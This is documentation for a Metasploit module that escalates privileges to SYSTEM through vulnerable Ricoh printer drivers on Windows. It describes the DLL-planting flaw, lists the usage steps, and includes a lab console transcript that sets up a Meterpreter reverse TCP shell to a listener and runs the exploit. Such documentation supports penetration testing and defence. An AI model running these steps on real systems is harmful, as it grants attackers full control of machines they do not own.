 ## Vulnerable Application

  [Various Ricoh printer drivers](https://www.ricoh.com/info/2020/0122_1/list) allow escalation of
  privileges on Windows systems.

  For vulnerable drivers, a low-privileged user can
  read/write files within the `RICOH_DRV` directory
  and its subdirectories.

  `PrintIsolationHost.exe`, a Windows process running
  as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
  during the installation of a printer. A user can
  elevate to SYSTEM by writing a malicious DLL to
  the vulnerable driver directory and adding a new
  printer with a vulnerable driver.

## Verification Steps

  1. Install a vulnerable Ricoh driver
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/ricoh_driver_privesc```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM.

## Options

  **FileWriteAttempts**

  This option is for setting the number of DLL write attempts.

  **FileWriteWait**

  This option is the amount of time to wait between each DLL write attempt.

## Scenarios

### Tested on Ricoh PCL6 Universal Driver `v4.13`

  ```
  msf5 > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (206403 bytes) to 192.168.37.196
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.196:49160) at 2020-02-03 16:14:20 -0600

  meterpreter > getuid
  Server username: WIN-FS4V2V58LEJ\Shelby Pace
  meterpreter > sysinfo
  Computer        : WIN-FS4V2V58LEJ
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  meterpreter > background
  [*] Backgrounding session 1...
  msf5 exploit(multi/handler) > use ricoh_driver_privesc

  Matching Modules
  ================

     #  Name                                        Disclosure Date  Rank    Check  Description
     -  ----                                        ---------------  ----    -----  -----------
     0  exploit/windows/local/ricoh_driver_privesc  2020-01-22       normal  Yes    Ricoh Driver Privilege Escalation


  [*] Using exploit/windows/local/ricoh_driver_privesc
  msf5 exploit(windows/local/ricoh_driver_privesc) > set session 1
  session => 1
  msf5 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(windows/local/ricoh_driver_privesc) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(windows/local/ricoh_driver_privesc) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Writing DLL to C:\ProgramData\RICOH_DRV\PCL6 Driver for Universal Print\_common\dlz\headerfooter.dll
  [*] Adding printer OgsHVa...
  [*] Sending stage (206403 bytes) to 192.168.37.196
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.196:49161) at 2020-02-03 16:14:56 -0600
  [*] Sending stage (206403 bytes) to 192.168.37.196
  [*] Meterpreter session 3 opened (192.168.37.1:4444 -> 192.168.37.196:49162) at 2020-02-03 16:14:56 -0600
  [*] Deleting printer OgsHVa

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : WIN-FS4V2V58LEJ
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
